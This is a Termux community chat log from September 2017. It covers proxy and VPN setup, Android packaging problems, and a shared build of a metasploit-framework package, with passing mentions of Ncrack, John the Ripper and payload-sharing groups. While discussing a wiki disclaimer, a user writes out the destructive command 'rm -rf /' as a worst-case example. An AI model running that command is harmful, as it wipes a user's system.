2017-09-12 04:05:40	gitter	(suryapoo) What's your take : on Node vs PHP

2017-09-12 04:35:08	frumpylava	I like both

2017-09-12 04:39:36	gitter	(SebastianM-C) Hello! I am trying to use the

2017-09-12 04:40:32	gitter	(SebastianM-C) `termux-setup-storage` command on Oreo, but it doesn't do anything

2017-09-12 04:41:44	gitter	(SebastianM-C) I used `apt-get update` and `apt-get upgrade` before.

2017-09-12 04:43:28	gitter	(SebastianM-C) `ls $HOME`doesn't show the `storage` folder (or anything else)

2017-09-12 04:43:48	gitter	(SebastianM-C) Am I missing something?

2017-09-12 04:48:34	u0_a153	yo

2017-09-12 08:23:29	frumpylava	Does anyone understand these pull request that change /etc/hosts to $PREFIX/etc/hosts? It is my understanding that $PREFIX/etc/hosts doesn't exist and even if it did, it wouldn't work anyway. Is that not so anymore?

2017-09-12 09:05:18	live_the_dream	yer hosts won't do anythung /etx/resolv.conf is different

2017-09-12 09:06:53	frumpylava	So is there a way to create custom hosts?

2017-09-12 09:06:55	live_the_dream	unless ita done by the lib itseld...

2017-09-12 09:09:09	live_the_dream	depends how hosta is looked up

2017-09-12 09:11:21	frumpylava	Do you know if there is a way to turn termux into a vpn, so I could set it in android as a vpn and then use things like privoxy or tor for all of android?

2017-09-12 09:19:19	gitter	(Grimler91) Frumpylava: the openvpn in disabled-package, packages by vishal, builds and starts on device

2017-09-12 09:19:35	gitter	(Grimler91) But it doesn't tunnel anything..

2017-09-12 09:20:36	gitter	(Grimler91) But maybe that wasn't what you asked about..

2017-09-12 09:38:55	frumpylava	@Grimler91 if possible I would like to connect that vpn to a socks proxy like tor, privoxy or ssh tunnels.

2017-09-12 09:39:28	BrainDamage	there's a specific api in android for this

2017-09-12 09:39:56	BrainDamage	you would need to wrap the android api, and then write a program that translates the requests to socks protocol

2017-09-12 09:39:58	gitter	(Auxilus) Sry to interrupt, Can we run a relay for tor?

2017-09-12 09:40:05	gitter	(Auxilus) In termux?

2017-09-12 09:40:15	BrainDamage	should be doable without modifications

2017-09-12 09:42:04	frumpylava	BrainDamage: I was thinking of running a PPTP type VPN on localhost, which I can set in the Wireless & Network Settings in android, and then in that vpn tunnel traffic through a socks proxy.

2017-09-12 09:43:30	frumpylava	or IPsec, which is also available.

2017-09-12 09:44:07	BrainDamage	so run a vpn host on termux, which has capabilities of socks proxy output? then connect using one of android native vpn clients?

2017-09-12 09:44:12	BrainDamage	that should work

2017-09-12 09:44:55	frumpylava	Do you know of any software that does this?

2017-09-12 09:45:08	BrainDamage	no

2017-09-12 09:45:44	BrainDamage	generally all socks support I've seen in vpn is on the client side to connect ot a host

2017-09-12 09:45:51	BrainDamage	not host side to tunnel the traffic

2017-09-12 09:47:35	BrainDamage	mostly because this would be extremely limitative, a virtual interface supports more packets than just those supported by socks

2017-09-12 09:48:11	BrainDamage	and it's generally assumed one can plumb together the software on the host side, because having admin access

2017-09-12 09:59:40	frumpylava	hmmm has there really been no update to tsocks since 15 years?

2017-09-12 10:02:58	BrainDamage	here's an idea:

2017-09-12 10:03:09	BrainDamage	run tinc in termux

2017-09-12 10:03:28	BrainDamage	use the device type as file descriptor

2017-09-12 10:03:39	BrainDamage	then use socat to tunnel from file to socket proxy

2017-09-12 10:03:52	BrainDamage	then use tincapp on android as vpn client

2017-09-12 10:04:15	BrainDamage	make sure to add an exception for termux itself from being vpn'ed, or you'll get a routing loop

2017-09-12 10:06:56	frumpylava	BrainDamage: hmm... I'll try that.

2017-09-12 10:08:06	frumpylava	Independent of that, how can I use socks proxies for termux tools like wget, curl and the like. I know I can use torsocks to route them through tor, but there must be a generalised method. If I just have a ssh -D type socks proxy running.

2017-09-12 10:10:01	BrainDamage	a few programs accept env vars

2017-09-12 10:10:12	BrainDamage	http_proxy, https_proxy, etc

2017-09-12 10:10:34	BrainDamage	you can otherwise try a wrapper program like tsocks, or proxychains-ng

2017-09-12 10:11:49	BrainDamage	make sure to enable remote dns resolution btw, which is off by default for ~every program

2017-09-12 10:11:57	BrainDamage	otherwise dns will bypass the vpn

2017-09-12 10:16:18	frumpylava	Do I need to do that for every application?

2017-09-12 10:18:30	BrainDamage	yes

2017-09-12 10:19:14	BrainDamage	you could try to tsocks/proxychains a shell

2017-09-12 10:19:41	BrainDamage	it should make every program in the shell get proxied

2017-09-12 10:20:16	frumpylava	Neither of those is available on termux it seems. I'll try to package tsocks later today. Do you know if the last version really came out in 2002?

2017-09-12 10:20:41	frumpylava	That seems rather old for a programm that handles networking related stuff.

2017-09-12 10:21:01	BrainDamage	yes, network protocols didn't change eversince

2017-09-12 10:21:14	BrainDamage	try also proxychains-ng, it has more functionality

2017-09-12 10:21:28	BrainDamage	and it's actively maintained

2017-09-12 10:21:58	BrainDamage	btw, the way both work is trough a hack

2017-09-12 10:22:02	BrainDamage	there's no guarantee it'll work

2017-09-12 10:22:54	BrainDamage	btw, tsocks/proxychains won't work on a regular vpn host in termux

2017-09-12 10:23:20	BrainDamage	because you cannot create a vpn interface in termux without the android api

2017-09-12 10:23:57	BrainDamage	you need a vpn host that can create something other than a virtual network card, that's why i suggested tinc

2017-09-12 10:24:16	frumpylava	yeah, but it will work for programs running within termux right?

2017-09-12 10:24:53	BrainDamage	probably? again it's a hack

2017-09-12 10:25:29	frumpylava	BrainDamage: Well, isn't torsocks very similar to tsocks? Because torsocks works without problems.

2017-09-12 10:26:16	BrainDamage	yes, as far as i know it's almost a ripoff of tsocks

2017-09-12 12:10:16	thws_	hello

2017-09-12 12:10:32	thws_	does termux have dhcp server?

2017-09-12 13:30:59	Auxilus	@stephengroat

2017-09-12 13:31:20	Auxilus	how do you find dev-depends for a package

2017-09-12 13:33:35	h093	Billions of devices imperiled by new clickless Bluetooth attack https://arstechnica.com/information-technology/2017/09/bluetooth-bugs-open-billions-of-devices-to-attacks-no-clicking-required

2017-09-12 13:54:55	Auxilus	exit

2017-09-12 16:09:48	frumpylava	I'm trying to package proxychains-ng now, but I am running into a problem with it being unable to locate symbol "getservbyname_r". Anybody got any ideas?

2017-09-12 21:33:59	gitter	(its-pointless) frumpy it might be some include is defining it but its not actually available like say dnsutils-dev  ....

2017-09-13 01:06:27	gitter	(graw-prog) I've been using D and the native ldc compiler to play with the termux api a bit I compared it to a few sl4a lua scripts I wrote and the lua scripts were faster every time. If there was a way to acceess the api directly through function calls instead of having ro call a shell for every call to the api it would be nice. This still feels pretty limited in a lot of ways. I'm not sure I really see the advantage of using termux for anyt

2017-09-13 01:06:27	gitter	limited access ro the android api than a defunct, unsupported scripting layer.

2017-09-13 02:31:45	frumpylava	@its-pointless: Yeah I've been thinking that. But getservbyname seems to be part of bionic/libc https://github.com/android/platform_bionic/blob/master/libc/dns/net/getservbyname.c

2017-09-13 02:34:46	gitter	(its-pointless) getservbyname and getservbyname_r are not the same thing. one is reentrant

2017-09-13 02:36:13	live_the_dream	ie thread safe

2017-09-13 02:42:00	frumpylava	live_the_dream: Hmm... so I need to figure out what library contains that function?

2017-09-13 02:42:44	live_the_dream	yes its probably in an include... i gave a hint before for likely candidate...

2017-09-13 02:49:11	frumpylava	live_the_dream: According to various man pages it's part of netdb.h. I did already try dnsutils, but that didn't change anything.

2017-09-13 04:33:39	h093	https://wiki.termux.com/

2017-09-13 04:35:39	h093	https://wiki.termux.com/wiki/Special:RecentChanges

2017-09-13 04:38:03	h093	2G/500K=0.00025%

2017-09-13 05:11:36	u0_a143	has anyone tried setting up mpd?

2017-09-13 05:12:42	u0_a143	is there absolutely no way to have my music root on internal or external memory? (mpd needs execute permission on all subdirs in music root)

2017-09-13 05:12:56	u0_a143	and that's not achievable on fat32

2017-09-13 05:58:28	frumpylava	u0_a143: I have it set up. All my music is on my external sd card inside the termux writable directory. My sd card is format exfat and not fat32, which may be what makes it work for me.

2017-09-13 05:59:48	u0_a143	nevermind, I figured it out, I'm just dumb.

2017-09-13 06:00:42	u0_a143	I assumed mpd doesnt start up because nmcpcpp list is empty, but turns out I just didnt generate the database

2017-09-13 06:29:16	gitter	(masterkorp) Hello, do you know what package installas the opensslv.h header files ?

2017-09-13 06:38:27	gitter	(masterkorp) ```

2017-09-13 06:38:27	gitter	(masterkorp) Installing collected packages: cryptography, pynacl, paramiko, beautifulsoup4, pycryptodome, ply, pysmi, pysnmp, gnureadline

2017-09-13 06:38:27	gitter	(masterkorp)   Running setup.py install for cryptography ... done

2017-09-13 06:38:27	gitter	(masterkorp) [full message: https://gitter.im/termux/termux?at=59b90aa2614889d475f13cb2]

2017-09-13 06:40:23	gitter	(masterkorp) do you  know what this means?

2017-09-13 06:40:24	gitter	(masterkorp)

2017-09-13 06:40:24	gitter	(masterkorp)

2017-09-13 06:40:24	gitter	(masterkorp)

2017-09-13 06:42:12	gitter	(masterkorp) It says no such file or directory, but it is refereing to all of them?

2017-09-13 07:14:39	gitter	(Grimler91) Hi, we don't  have a good way to find which package provides a particular file (yet), but header files are usually in the *-dev packages.

2017-09-13 07:18:28	gitter	(Grimler91) Often you can search for a package with a similar name and most likely the header is in the dev version of that package. In your case opensslv.h is in openssl-dev

2017-09-13 07:46:49	gitter	(Grimler91) Go to the tmp folder (`/data/data/com.termux/files/usr/pip-build-gh3NVJ/pynacl`) and run the install manually (`python2 setup.py install`) to get more information about the error than pip shows you

2017-09-13 10:32:17	HoloIRCUser1	Hi

2017-09-13 10:32:53	HoloIRCUser1	Hi

2017-09-13 10:40:12	veryCLE	What up

2017-09-13 10:48:44	gitter	(masterkorp) @Grimler91 oh that is useful informatiom thank you!

2017-09-13 10:59:29	gitter	(masterkorp) @Grimler91 that seems to be the problem the directory does not exist

2017-09-13 11:08:17	gitter	(Grimler91) @masterkorp ah, that's because I wrote the wrong path. Try in `/data/data/com.termux/files/usr/tmp/pip-build-gh3NVJ/pynacl` (that should be the same as in your error message)

2017-09-13 12:25:50	gitter	(themastersunil) can i install john the ripper in termux?

2017-09-13 12:39:03	gitter	(themastersunil) anybody is here??????

2017-09-13 13:42:14	gitter	(vishalbiswas) @fornwall termux's package space has grown considerably. It may be the time to consider repo package files indexes

2017-09-13 14:02:11	g093	Grimler texlive is broken https://github.com/termux/termux-packages/issues/1486

2017-09-13 14:05:48	g093	Can you please help?

2017-09-13 14:36:58	Grimler	?quit

2017-09-13 15:46:15	gitter	(masterkorp) @Grimler91 sorry for the delay on the response

2017-09-13 15:47:02	gitter	(masterkorp) it seems that directory its deleted

2017-09-13 16:33:03	gitter	(Grimler91) @masterkorp run the pip install again and another directory will be created :+1:

2017-09-14 00:01:22	g093	new apk repo at https://sdrausty.github.io/builtAPKs/ feedback requested please

2017-09-14 00:01:55	g093	published through https://pages.github.com

2017-09-14 01:08:17	frumpylava	@sdrausty It's very handy when you can just point towards the right wiki article for a good amound of issues on Github.

2017-09-14 01:30:20	u0_a143	het guys, have anyone tried building rtorrent?

2017-09-14 01:53:17	gitter	(sdrausty) Yes, frumpylava this is very convenient feature of our wiki. Another one is if there is nothing to point to, it can be created! Cool.

2017-09-14 02:26:32	edward	anybody else running taskwarrior on termux? i get this error: 'task sync' terminated by signal SIGSEGV (Address boundary error)

2017-09-14 04:32:15	frumpylava	@sdrausty I reenabled the MobileFrontend in the Wiki. Can you keep a look out for any errors? I did also enable tracebacks, so if you encounter and error it shouldn't be just a blank page anymore.

2017-09-14 04:51:18	AtomicGen	anybody had luck with sending mouse events through tmux?

2017-09-14 04:51:43	AtomicGen	with mouse on it only sends scroll events

2017-09-14 04:53:08	frumpylava	AtomicGen: Yeah. It works for me.

2017-09-14 04:53:40	AtomicGen	could you share your tmux.conf?

2017-09-14 04:55:07	frumpylava	AtomicGen: http://sprunge.us/TOCI

2017-09-14 05:13:54	AtomicGen	frumpylava: Indeed, your config works. Thanks.

2017-09-14 05:41:52	frumpylava	AtomicGen: I cleaned up my tmux.conf a bit now and added tons of comments. http://sprunge.us/YQXb

2017-09-14 05:42:33	AtomicGen	well I have my own, I just found the reason why it didn't send mouse events corectly

2017-09-14 05:43:02	frumpylava	Do you know which setting makes it work?

2017-09-14 05:43:51	AtomicGen	Yeah, it was terminal type, I had "tmux-256color" and it does work on pc

2017-09-14 05:43:58	AtomicGen	but not in termux

2017-09-14 05:44:31	AtomicGen	xterm-256color works on both sides, though

2017-09-14 05:45:10	frumpylava	I see. Well that's good.

2017-09-14 06:26:20	gitter	(fornwall) @Grimler91 regarding #1486, do you think we should revert poppler to an older version, or do you want to make a patch?

2017-09-14 06:33:44	timwr	hi fornwall: how does the original bootstrap-aarch64.zip that termux-app unzips get built?

2017-09-14 06:35:20	timwr	wait is it just /data/data/com.termux/... within docker zipped up?

2017-09-14 06:36:29	fornwall	timwr: the bootstrap zip is just a couple of essential packages (bash, readline, busybox, dpkg, ...) zipped up

2017-09-14 06:36:59	timwr	do you have a script that builds it or did you just build it manually?

2017-09-14 06:37:42	fornwall	timwr: a script (a small java program actually), I can share it if you're interested?

2017-09-14 06:37:46	timwr	yes please!

2017-09-14 06:40:43	fornwall	timwr: have a look at https://fornwall.net/BootstrapZipBuilder.java

2017-09-14 06:41:18	fornwall	it uses some utility classes, and could be cleaned up

2017-09-14 06:41:44	fornwall	I can have a look at creating a small repository so it can be built directly

2017-09-14 07:00:06	Grimler	fornwall: I think it would be good to revert, at least while I'm working on creating a patch

2017-09-14 07:45:58	lrh9	Hello.

2017-09-14 07:58:15	lrh9	I installed Termux via Google Play and opened the app. There was a notification reading "Installing..." and I went to bed for the night. This morning the process was still ongoing. Am I doing something wrong or is this normal?

2017-09-14 08:00:10	lrh9	I'm sorry. I attempted to reopen it again while asking my question and it worked. Thank you.

2017-09-14 09:23:12	frumpylava	g093: You're Ux on the wiki, right?

2017-09-14 10:24:49	gitter	(Auxilus) Ye he is UX

2017-09-14 10:25:02	gitter	(Auxilus) I think @sdrausty = Ux = g093

2017-09-14 10:25:20	gitter	(Auxilus) frumpylava : anything new on the wiki?

2017-09-14 10:27:44	frumpylava	@Auxilus Yes. I reenabled the MobileFrontend. Let me know if you encounter any errors again. Also I started to write a Policies and guidelines page to outline a few things. Do you have an idea what else should be there?

2017-09-14 10:28:30	gitter	(Auxilus) On that page?

2017-09-14 10:28:48	frumpylava	yeah. At the moment it just has the things I have to fix every day.

2017-09-14 10:29:42	gitter	(Auxilus) Maybe add some `fair use` policy or warning about hacking stuff ,

2017-09-14 10:30:50	frumpylava	hmm... what do you mean warning about hacking stuff?

2017-09-14 10:31:12	gitter	(Auxilus) Fair use = we are not responsible for any damage that happens to your phone ( worst case scenario 'he executes `rm -rf /` in root'

2017-09-14 10:31:48	gitter	(Auxilus) There are literally numerous whatsapp groups who chat on hacking with termux

2017-09-14 10:32:04	gitter	(Auxilus) They share scripts  payloads etc etc

2017-09-14 10:32:18	frumpylava	@Auxilus I think the page for that is https://wiki.termux.com/wiki/Termux_Wiki:General_disclaimer which I stole from the Archwiki.

2017-09-14 10:32:28	gitter	(Auxilus) Some jerks even planning to do ddos

2017-09-14 10:32:49	frumpylava	@The Policies and Guidelines page is more for guidelines for contributors for the wiki.

2017-09-14 10:33:24	frumpylava	Unfortunately I don't speak enough legalese to feel confident to extend the General Discalimer

2017-09-14 10:33:43	gitter	(Auxilus) Ah i see.. I thought it was about termux app..

2017-09-14 10:34:29	frumpylava	@Auxilus Here's the link. I forgot it before: https://wiki.termux.com/wiki/Termux_Wiki:Policies_and_guidelines

2017-09-14 10:34:48	gitter	(Auxilus) You may also wanna lockout the upload page, as some nuts could spam by uploading unwanted images

2017-09-14 10:36:04	frumpylava	@Auxilus But how would contributors be able to upload images?

2017-09-14 10:36:13	gitter	(Auxilus) I think what you have on that page is pure guidelines so it shouldn't be saying policy in the title(unless you wanna add policy to it)

2017-09-14 10:36:26	gitter	(Auxilus) Using https://wiki.termux.com/wiki/Special:Upload

2017-09-14 10:36:44	gitter	(Auxilus) Voila!!

2017-09-14 10:36:55	gitter	(Auxilus) Just compiled Ncrack

2017-09-14 10:37:25	frumpylava	yeah, but if I lock that page out nobody will be able to upload anything.

2017-09-14 10:38:30	gitter	(Auxilus) Cant you allow specific useres? There must be an option for that..

2017-09-14 10:39:08	frumpylava	I moved it now https://wiki.termux.com/wiki/Termux_Wiki:Content_guidelines

2017-09-14 10:39:51	frumpylava	Yeah, probably, but then I would have to whitelist users all the time.

2017-09-14 10:40:23	gitter	(Auxilus) Maybe blacklisting spammers is better..

2017-09-14 10:40:39	gitter	(Auxilus) Installing apt package from the repositories should be `Package installation `

2017-09-14 10:40:54	gitter	(Auxilus) As people get bored re

2017-09-14 10:41:29	frumpylava	Well, there are maintenance scripts to take care of spammers.

2017-09-14 10:41:58	frumpylava	hmm yeah, altough I wanted to specify apt specifically and not pip etc.

2017-09-14 10:43:06	gitter	(Auxilus) Yeah

2017-09-14 10:43:24	gitter	(Auxilus) Add like for package installation for ruby python etc etc

2017-09-14 10:43:51	gitter	(Auxilus) Wait

2017-09-14 10:43:54	gitter	(Auxilus) Im on it..

2017-09-14 10:46:29	gitter	(Auxilus) frumpylava : can you please run the build script for metasploit-framework??

2017-09-14 10:46:38	gitter	(Auxilus) Sry to bother you time to time..

2017-09-14 10:47:40	frumpylava	sure linkme

2017-09-14 10:48:26	gitter	(Auxilus) Ty wait..

2017-09-14 10:49:50	gitter	(Auxilus) frumpylava : here..

2017-09-14 10:49:51	gitter	(Auxilus) https://raw.githubusercontent.com/Auxilus/termux-packages/9e552f1b6626a5863fd9c3c72a4ebf713434a8bd/packages/metasploit-framework/build.sh

2017-09-14 10:50:10	gitter	(Auxilus) Is that tmate link still working?

2017-09-14 10:51:03	frumpylava	No

2017-09-14 10:51:10	frumpylava	I'll need to create a new one

2017-09-14 10:51:20	gitter	(Auxilus) Okay..

2017-09-14 10:51:23	gitter	(Auxilus) Send me link

2017-09-14 10:55:01	frumpylava	https://tmate.io/t/ro-jKYRduBlyC98pdwPSDBGZK66T

2017-09-14 10:56:18	gitter	(Auxilus) https://raw.githubusercontent.com/Auxilus/termux-packages/9e552f1b6626a5863fd9c3c72a4ebf713434a8bd/packages/metasploit-framework/build.sh

2017-09-14 10:56:35	gitter	(Auxilus) Can you make screen bigger?

2017-09-14 10:56:52	frumpylava	as soon as I detach from my phone

2017-09-14 10:57:20	gitter	(Auxilus) 👍

2017-09-14 10:58:54	gitter	(Auxilus) frumpylava : you kept the dependencies right?

2017-09-14 10:59:06	frumpylava	yeah, but some of them updated since

2017-09-14 10:59:35	gitter	(Auxilus) @vishalbiswas , you watching?

2017-09-14 11:00:17	gitter	(vishalbiswas) yes

2017-09-14 11:00:25	gitter	(vishalbiswas) on ssh

2017-09-14 11:00:36	gitter	(Auxilus) Vo kaise??

2017-09-14 11:00:46	gitter	(Auxilus) Im watching on Chrome

2017-09-14 11:00:53	gitter	(Auxilus) How do i watch on ssh?

2017-09-14 11:01:10	gitter	(vishalbiswas) there's an ssh command at the bottom

2017-09-14 11:01:15	gitter	(Auxilus) Found

2017-09-14 11:01:45	gitter	(Auxilus) aaj free ho kya thoda?

2017-09-14 11:02:54	gitter	(vishalbiswas) only till 9

2017-09-14 11:03:48	gitter	(Auxilus) Tab tk shayad ho jaega

2017-09-14 11:04:15	gitter	(Auxilus) I bet the solution is right under my nose, but couldn't find it..

2017-09-14 11:06:30	gitter	(Auxilus) @vishalbiswas

2017-09-14 11:06:38	gitter	(vishalbiswas) llvm takes forever

2017-09-14 11:06:38	gitter	(Auxilus) The error was..

2017-09-14 11:06:39	gitter	(Auxilus) installing actionpack -v 4.2.6

2017-09-14 11:06:39	gitter	(Auxilus) Fetching: i18n-0.8.6.gem (100%)

2017-09-14 11:06:39	gitter	(Auxilus) Successfully installed i18n-0.8.6

2017-09-14 11:06:39	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59ba9affbc46472974331b23]

2017-09-14 11:07:54	gitter	(Auxilus) I got the same error on my termux while installing a gem `mkmf.rb can't find header files for ruby at /usr/lib/ruby/include/ruby.h`

2017-09-14 11:08:07	gitter	(Auxilus) When i installed ruby-dev it was fixed

2017-09-14 11:08:54	gitter	(vishalbiswas) that's because you are using host bundler

2017-09-14 11:09:17	gitter	(vishalbiswas) there may be an option to specify ruby installation path

2017-09-14 11:09:43	gitter	(Auxilus) But im not using bundler in that script

2017-09-14 11:10:09	gitter	(vishalbiswas) gem

2017-09-14 11:10:26	gitter	(vishalbiswas) same thing

2017-09-14 11:10:45	gitter	(Auxilus) I've given gem installation path tho..

2017-09-14 11:10:46	gitter	(Auxilus) ```

2017-09-14 11:10:46	gitter	(Auxilus) while read p; do

2017-09-14 11:10:46	gitter	(Auxilus)             echo "installing $p"

2017-09-14 11:10:46	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59ba9bf67b7d98d30df534ee]

2017-09-14 11:12:33	gitter	(Auxilus) The problem occurs only while building gems with native extensions

2017-09-14 11:12:49	timwr	are you sure it's cross compiling them?

2017-09-14 11:13:39	gitter	(Auxilus) I think yes, cz I haven't target specific architecture

2017-09-14 11:14:18	gitter	(vishalbiswas) the build script exports CC, CXX, etc so it should be

2017-09-14 11:14:24	gitter	(vishalbiswas) timwr

2017-09-14 11:14:55	gitter	(vishalbiswas) @Auxilus install_dir is for gem installation path

2017-09-14 11:15:24	gitter	(Auxilus) Which do we want then?

2017-09-14 11:16:09	gitter	(vishalbiswas) the one that specifies ruby's install dir

2017-09-14 11:16:50	gitter	(Auxilus) Host's ruby or  termux's ruby?

2017-09-14 11:17:22	gitter	(Auxilus) @vishalbiswas it's gonna give same `ruby.h` not found error

2017-09-14 11:17:28	gitter	(vishalbiswas) i'm talking about setting path not getting it

2017-09-14 11:19:03	gitter	(Auxilus) @vishalbiswas I couldn't figure that out, thats why I called for your help man..

2017-09-14 11:20:17	gitter	(vishalbiswas) I'll check back half an hour later

2017-09-14 11:20:48	gitter	(Auxilus) Okay sure, I'm gonna go eat too..

2017-09-14 11:21:00	gitter	(Auxilus) But please lets get this corrected

2017-09-14 11:21:17	gitter	(Auxilus) And have pleasure of `apt install metasploit-framework `

2017-09-14 11:22:40	timwr	+1 <3

2017-09-14 11:28:52	gitter	(Auxilus) frumpylava : keep the link up, imma check in after some time, will that ne fine with you?

2017-09-14 11:30:02	frumpylava	sure.

2017-09-14 11:32:37	frumpylava	Altough I may want to watch tv later and this runs on my media pc, so I may have to terminate the compilation. :S

2017-09-14 11:33:19	BrainDamage	you coul set nice and ionice

2017-09-14 11:33:25	gitter	(Auxilus) When?

2017-09-14 11:33:28	gitter	(Auxilus) Now?

2017-09-14 12:25:06	gitter	(suryapoo) How do i do that

2017-09-14 13:20:24	gitter	(vishalbiswas) frumpylava: the build task has finished. you can close it

2017-09-14 13:26:25	gitter	(Auxilus) @vishalbiswas

2017-09-14 13:26:38	gitter	(Auxilus) ERROR:  Could not find a valid gem '/home/builder/.termu│··························

2017-09-14 13:26:38	gitter	(Auxilus) x-build/metasploit-framework/src/grpc-1.4.1.gem' (>= 0) │··························

2017-09-14 13:26:38	gitter	(Auxilus) in any repository

2017-09-14 14:00:21	timwr	you don't need grpc btw

2017-09-14 14:01:32	gitter	(Auxilus) Really?? 😕

2017-09-14 14:02:20	gitter	(Auxilus) Should I remove it?

2017-09-14 14:19:26	gitter	(suryapoo) Guys

2017-09-14 14:19:42	gitter	(suryapoo) I have created a php

2017-09-14 14:19:44	gitter	(suryapoo) .ini

2017-09-14 14:20:14	gitter	(suryapoo) File and added the sendmail path into it

2017-09-14 14:20:34	gitter	(suryapoo) Now what should I do next

2017-09-14 14:21:04	gitter	(suryapoo) For mail functionality

2017-09-14 14:21:32	gitter	(fornwall) @Grimler91 can you check if pdflatex works with the latest version of poppler (the package version is 0.59.0.1 to get a higher version number, but the actual poppler version is 0.57.0)?

2017-09-14 14:43:10	g093	poppler works well with tex @fornwall now on aarch64

2017-09-14 14:44:00	g093	poppler/stable,now 0.59.0.1 aarch64 [installed]

2017-09-14 15:30:10	frumpylava	That mobile frontend stuff is dumb. Maybe I'll just choose a skin that is responsive.

2017-09-14 15:47:28	fornwall	g093: great, thanks!

2017-09-14 16:24:36	Grimler	Great that texlive is working again! I'll look at a patch anyways, good opportunity to learn some more c++.

2017-09-15 01:16:58	u0_a143	hey, is there a way to get battery charge in termux?

2017-09-15 01:25:26	nm0i	Heavily depends on your kernel. Look for capacity, charge or etc in /sys/class/power_supply/battery/ , or in /sys/class in general.

2017-09-15 02:02:52	frumpylava	nm0i: You could use the Termux:API addon and call termux-battery-status to get various information about the battery.

2017-09-15 02:57:00	frumpylava	Grimler: Do you think texlive-full could be packaged? It always takes ages installing all texlive packages seperately.

2017-09-15 02:57:32	frumpylava	> ages = On the scale of hours.

2017-09-15 02:59:41	Grimler	frumpylava: package it in a similar way as on ubuntu and other distros, with several thousand packages?

2017-09-15 03:00:41	Grimler	It should be possible to speed up the tlmgr downloads, right now it doesn't create a persistant connection so it has to reconnect for every download or something like that. There are some perl modules needed as far as i understand it

2017-09-15 03:01:12	gitter	(Auxilus) Grimler : cant you just add that full installation command in build script itself?

2017-09-15 03:01:46	Grimler	yeah, but it would be a huge package. Then people with small internal memory won't be able to install texlive at all

2017-09-15 03:01:57	frumpylava	Grimler: No, that would be excessive. Just one package that contains all of scheme-full. I don't think we have the manpower to oversee thousands of packages.

2017-09-15 03:02:12	frumpylava	Grimler: I think a seperate package would be better.

2017-09-15 03:02:39	gitter	(Auxilus) Something like `texlive-full`?

2017-09-15 03:02:42	frumpylava	leave texlive the way it is and add texlive-full containing everything. Then people could still use tlmgr instead, if they want only a couple of packages.

2017-09-15 03:03:12	Grimler	so that we would have texlive, texlive-bin and texlive-full? Where texlive-full contains everything that isn't in the other two?

2017-09-15 03:03:39	frumpylava	yeah.

2017-09-15 03:03:48	gitter	(Auxilus) How do install full texlive? I mean though cli?

2017-09-15 03:03:52	Grimler	should be quite easy to create that package

2017-09-15 03:04:05	Grimler	Auxilus: tlmgr install scheme-full

2017-09-15 03:04:05	frumpylava	@Auxillus tlmgr install scheme-full

2017-09-15 03:05:10	Grimler	I can look at creating a draft for a package in next week (will be away for the weekend)

2017-09-15 03:06:15	frumpylava	Grimler: Because sometimes when texlive is updated things break. Today it claimed that tlmgr needed to be updated, which I did but it didn't work. So I had to remove all of texlive and am now installing it again. It's been 1 hour so far. and it is about 2/3 done.

2017-09-15 03:08:27	frumpylava	Grimler: That would be very cool. Thank you.

2017-09-15 03:09:02	Grimler	Hmm, would be interesting to hear more about that break. How did it break?

2017-09-15 03:09:39	Grimler	I've replaced the symlink tlmgr with a small script that is suppose to make sure that stuff doesn't break when tlmgr is updated

2017-09-15 03:12:32	frumpylava	Grimler: Well, I ran `tlmgr update --list`, which showed me "tlmgr itself needs to be updated. Please do this via either tlmgr update --self ..."

2017-09-15 03:12:48	frumpylava	tlmgr.ln: Terminating; please see warning above!

2017-09-15 03:13:02	frumpylava	Which I then did which gave me:

2017-09-15 03:13:11	frumpylava	tlmgr.ln: package repository http://ftp.acc.umu.se/mirror/CTAN/systems/texlive/tlnet (verified)

2017-09-15 03:13:12	frumpylava	tlmgr.ln: saving backups to /data/data/com.termux/files/usr/opt/texlive/2017/tlpkg/backups

2017-09-15 03:13:14	frumpylava	[1/1, ??:??/??:??] update: texlive.infra [199k] (44836 -> 45305) ... done

2017-09-15 03:13:16	frumpylava	running mktexlsr ...

2017-09-15 03:13:18	frumpylava	done running mktexlsr.

2017-09-15 03:13:20	frumpylava	running mtxrun --generate ...

2017-09-15 03:13:22	frumpylava	tlmgr.ln: mtxrun --generate failed (status -1), output:

2017-09-15 03:13:24	frumpylava	tlmgr.ln: package log updated: /data/data/com.termux/files/usr/opt/texlive/2017/texmf-var/web2c/tlmgr.log

2017-09-15 03:13:26	frumpylava	tlmgr.ln: An error has occurred. See above messages. Exiting.

2017-09-15 03:14:37	frumpylava	Unfortunately that log is already gone.

2017-09-15 03:15:36	gitter	(Auxilus) See https://github.com/termux/termux-packages/compare/master...Auxilus:master

2017-09-15 03:16:00	gitter	(Auxilus) Added `

2017-09-15 03:16:08	gitter	(Auxilus) termux_step_post_make_install () {

2017-09-15 03:16:08	gitter	(Auxilus)         $TERMUX_PREFIX/bin/tlmgr install scheme-full

2017-09-15 03:16:08	gitter	(Auxilus) }

2017-09-15 03:17:26	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1514

2017-09-15 03:32:32	Grimler	frumpylava: Hm, I haven't seen "mtxrun --generate failed (status -1)" myself. Can try to reproduce it

2017-09-15 03:34:18	Grimler	Auxilus: That won't work, there are a couple of problems

2017-09-15 03:34:44	Grimler	texlive-full and texlive-bin,texlive would conflict since they provide the same files

2017-09-15 03:34:54	Grimler	$TERMUX_PREFIX/bin/tlmgr won't work on host computer

2017-09-15 03:35:43	gitter	(Auxilus) Then we have to source it from private repo?

2017-09-15 03:37:43	Grimler	We should do it in a similar matter as it is currently done. In termux_step_extract_package, files are extracted from the texlive-$_MAJOR_VERSION-texmf.tar.xz, we want to extract all the files that aren't included in the package texlive to texlive-full

2017-09-15 03:39:37	Grimler	basically we need to change texlive-texmf.list, texlive-extra.list, install-tl.list and texlive.tlpdb to make them contain all other files that are not included in the pkg texlive

2017-09-15 03:40:20	Grimler	Not sure how to deal with texlive.tlpdb, that will be a bit problematic since two packages can't provide the same file

2017-09-15 03:41:59	gitter	(Auxilus) Like I said  , we can host already patched texlive source on github and use its release for build script of texlive-full

2017-09-15 03:43:46	Grimler	Auxilus: What do you mean?

2017-09-15 03:44:55	gitter	(Auxilus) I mean then it wouldn't have the same files ( patch files etc) and it won't conflict with the other two packages

2017-09-15 03:46:06	frumpylava	Grimler: texlive.tlpdb is the database of tlmgr right? If texlive-full depended on texlive, can't it just append to that in the postinst script?

2017-09-15 03:47:19	live_the_dream	should i swap around pythons when using /usr

2017-09-15 03:47:31	live_the_dream	shebangs?

